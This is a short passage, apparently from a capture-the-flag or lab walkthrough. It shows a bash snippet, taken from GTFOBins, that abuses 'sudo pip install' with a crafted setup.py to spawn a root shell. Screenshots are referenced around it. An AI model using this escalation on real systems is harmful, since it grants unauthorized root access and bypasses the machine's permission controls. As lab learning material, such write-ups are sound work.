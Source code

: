 ![Website](Img/23_gtfobins.png)

We use sudo code to get root access 
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

![Root access](Img/24_root_access.png)